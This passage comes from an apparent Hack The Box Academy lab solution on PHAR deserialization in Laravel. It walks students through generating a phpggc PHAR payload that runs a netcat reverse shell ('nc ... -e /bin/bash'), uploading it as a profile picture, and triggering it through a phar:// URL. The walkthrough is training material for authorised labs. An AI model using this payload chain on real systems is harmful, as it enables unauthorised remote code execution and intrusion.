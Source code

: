 Subsequently, students need to utilize `phpggc` to generate a malicious PHAR file that calls the PHP function `system` with the argument `nc -nv PWNIP PWNPO -e /bin/bash`:

Code: shell

```shell
phpgcc -p phar Laravel/RCE9 system 'nc -nv PWNIP PWNPO -e /bin/bash' -o exploit.phar
```

```shell
┌─[eu-academy-1]─[10.10.14.107]─[htb-ac413848@htb-tihlybxmyf]─[~/phpggc]
└──╼ [★]$ ./phpggc -p phar Laravel/RCE9 system 'nc -nv 10.10.14.107 9001 -e /bin/bash' -o exploit.phar
```

Afterward, students need to visit the web root page of the spawned target on port 8000 and create a dummy account:

![[HTB Solutions/CWEE/z. images/5ea80e4ef9e79ac43b3cc99f8a7ac842_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/426051d1dc1814be1797ce9d91d997bc_MD5.jpg]]

Once registered, students need to log in and then navigate to `/settings`:

![[HTB Solutions/CWEE/z. images/ed407b3509f28399289c6b8166b84b5b_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/728d50df2a9541cc86cb8f705632c482_MD5.jpg]]

Then, on the "Settings" web page, students need to upload `exploit.phar` as the profile picture and then click on "Update":

![[HTB Solutions/CWEE/z. images/c0ef5334d1d136aa31081fad48a18a02_MD5.jpg]]

After updating the profile picture successfully, students need to copy its link:

![[HTB Solutions/CWEE/z. images/2297312da17e2aa353bf3be2f4c47067_MD5.jpg]]

Subsequently, students need to make sure that they have an `nc` listener on the port that was specified when creating the malicious PHAR file (9001 in here):

Code: shell

```shell
nc -nvlp PWNPO
```

```shell
┌─[eu-academy-1]─[10.10.14.107]─[htb-ac413848@htb-tihlybxmyf]─[~]
└──╼ [★]$ nc -nvlp 9001

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
```

Thereafter, with the copied image link, students need to prepend the `phar://` wrapper to it, such as `http://STMIP:8000/image?_=phar://uploads/MD5Hash.jpg`, where `MD5Hash` is the value of the actual hash, then, students need to navigate to it so that the backend server will call `file_exists('phar://uploads/MD5Hash.jpg')` and the metadata will be deserialized. Students will notice that the reverse shell connection has been established in the `nc` listener successfully (students can ignore the error message "The address wasn't understood"):
